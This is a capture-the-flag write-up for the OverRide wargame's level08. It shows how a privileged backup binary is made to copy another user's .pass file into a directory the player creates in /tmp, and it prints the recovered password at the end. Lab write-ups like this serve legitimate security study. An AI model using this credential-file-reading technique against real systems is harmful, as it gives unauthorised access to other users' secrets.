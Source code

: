 After opening the binary in dogbolt we can see that the program take a path in parameter and copy that file in a folder backup that has the same parent structure.
So if I want to copy `myfile`:
`/folder1/folder2/myfile`
There must be a folder `backups` containing `/folder1/folder2/` like:
`./backups/folder1/folder2/`
Where you are

Since we know that the binary has the permission to open `/home/users/level09/.pass`
We will try to copy the `.pass` file

```Shell
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Here we see that it doesn't work because the `/home/users/level0` folder are missing in the `./backups` folder.
So we will try to use the command in the `/tmp` directory so that we can create the `./backups/home/users/level0` folders.

```Shell
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

